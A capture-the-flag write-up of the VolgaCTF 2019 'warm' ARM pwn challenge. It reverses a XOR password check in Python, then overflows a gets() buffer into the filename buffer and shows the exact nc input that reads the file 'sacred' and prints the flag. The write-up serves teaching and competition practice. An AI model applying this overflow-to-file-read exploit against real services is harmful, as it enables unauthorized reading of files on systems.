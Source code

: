 ```yaml
---
layout:     post
title:      'VolgaCTF Qualifiers 2019 - warm'
date:       2019-03-31 0:00:00
author:     'W3ndige'
permalink: /:title/
category: 'VolgaCTF Qualifiers 2019'
---
```


Another week and another write up, this time from ***VolgaCTF Qualifiers*** we have a ***pwn*** challenge called ***warm*** rated at 100pts. Quite an annoying challenge with big troll at the last part of exploitation. Big kudos to [Yodak](https://twitter.com/Yodak5) for firstly reverse engineering the binary.  

We're given an `ARM` binary and a task. 

```
How fast can you sove it? nc warm.q.2019.volgactf.ru 443
```

Let's take a look at the file. 

```text
w3ndige@main ~/D/c/v/warm> file warm 
warm: ELF 32-bit LSB pie executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=c549628c0b3841a5fd9a23f0faaf6b51eb858e94, stripped
```

As usual we're gonna start with analyzing the code. As in the last challenge we had a good solution with `Ghidra`, we're once again going to give it a try. Let's load the binary and analyze it. 

As I'm not familiar with `ARM`, I'm just poking around the binary looking for anything useful and in `FUN_00010788` function, we can see a suspicious algorithm shown in pseudocode. 

![Ghidra View](/img/volgactf/ghidra-warm-disassembly.png){:class="img-responsive center-block"}

Let's copy it and analyze what it's doing. 

```c
undefined4 FUN_00010788(byte *pbParm1)

{
  size_t sVar1;
  undefined4 uVar2;
  
  sVar1 = strlen((char *)pbParm1);
  if (sVar1 < 0x10) {
    uVar2 = 1;
  }
  else {
    if (((((*pbParm1 == 0x76) && ((pbParm1[1] ^ *pbParm1) == 0x4e)) &&
         ((pbParm1[2] ^ pbParm1[1]) == 0x1e)) &&
        ((((pbParm1[3] ^ pbParm1[2]) == 0x15 && ((pbParm1[4] ^ pbParm1[3]) == 0x5e)) &&
         (((pbParm1[5] ^ pbParm1[4]) == 0x1c &&
          (((pbParm1[6] ^ pbParm1[5]) == 0x21 && ((pbParm1[7] ^ pbParm1[6]) == 1)))))))) &&
       (((pbParm1[8] ^ pbParm1[7]) == 0x34 &&
        ((((((pbParm1[9] ^ pbParm1[8]) == 7 && ((pbParm1[10] ^ pbParm1[9]) == 0x35)) &&
           ((pbParm1[0xb] ^ pbParm1[10]) == 0x11)) &&
          (((pbParm1[0xc] ^ pbParm1[0xb]) == 0x37 && ((pbParm1[0xd] ^ pbParm1[0xc]) == 0x3c)))) &&
         (((pbParm1[0xe] ^ pbParm1[0xd]) == 0x72 && ((pbParm1[0xf] ^ pbParm1[0xe]) == 0x47)))))))) {
      uVar2 = 0;
    }
    else {
      uVar2 = 2;
    }
  }
  return uVar2;
}
```

We can easily reverse it with Python for such a small input. 

```python
>>> params = []
>>> params.append(chr(0x76))
>>> params
['v']
>>> params.append(chr(0x76 ^ 0x4e))
>>> params.append(chr(ord(params[1]) ^ 0x1e))
>>> params.append(chr(ord(params[2]) ^ 0x15))
>>> params.append(chr(ord(params[3]) ^ 0x5e))
>>> params.append(chr(ord(params[4]) ^ 0x1c))
>>> params.append(chr(ord(params[5]) ^ 0x21))
>>> params.append(chr(ord(params[6]) ^ 0x1))
>>> params.append(chr(ord(params[7]) ^ 0x34))
>>> params.append(chr(ord(params[8]) ^ 0x7))
>>> params.append(chr(ord(params[9]) ^ 0x35))
>>> params.append(chr(ord(params[10]) ^ 0x11))
>>> params.append(chr(ord(params[11]) ^ 0x37))
>>> params.append(chr(ord(params[12]) ^ 0x3c))
>>> params.append(chr(ord(params[13]) ^ 0x72))
>>> params.append(chr(ord(params[14]) ^ 0x47))
>>> params
['v', '8', '&', '3', 'm', 'q', 'P', 'Q', 'e', 'b', 'W', 'F', 'q', 'M', '?', 'x']
>>> hex(len(params))
'0x10'
```

So there we have a password. But what else? Upon further examination, we can find another function reponsible for user input and general usage of the binary. Let's view the pseudocode.  

```c
undefined4 FUN_000109ec(void)

{
  int __c;
  FILE *__stream;
  char acStack220 [100];
  char acStack120 [100];
  int local_14;
  
  local_14 = __stack_chk_guard;
  setvbuf(stdout,(char *)0x0,2,0);
  while( true ) {
    while( true ) {
      FUN_000108f0(acStack120);
      puts("Hi there! I\'ve been waiting for your password!");
      gets(acStack220);
      __c = FUN_00010788(acStack220);
      if (__c == 0) break;
      FUN_00010978(1,0);
    }
    __stream = fopen(acStack120,"rb");
    if (__stream != (FILE *)0x0) break;
    FUN_00010978(2,acStack120);
  }
  while (__c = _IO_getc((_IO_FILE *)__stream), __c != -1) {
    putchar(__c);
  }
  fclose(__stream);
  if (local_14 == __stack_chk_guard) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

From a first look there may be stack based buffer overflow in `gets(acStack220);`. As the variable is `100` bytes, by supplying more that that we would be able to overflow it into a buffer that is higher on a stack, `acStack120`. By the way, this variable holds a name of the file to read, so we will be able to read any file on the system. 

Let's try that out. 

```text
w3ndige@main ~/D/c/v/warm> nc warm.q.2019.volgactf.ru 443
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?xaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag
Seek file with something more sacred!
```

Something more `sacred` had me up for quite a long time, but it was amazingly easy. What about the file called `sacred`? 

```text
w3ndige@main ~/D/c/v/warm> nc warm.q.2019.volgactf.ru 443
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?xaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaasacred    
VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle}
```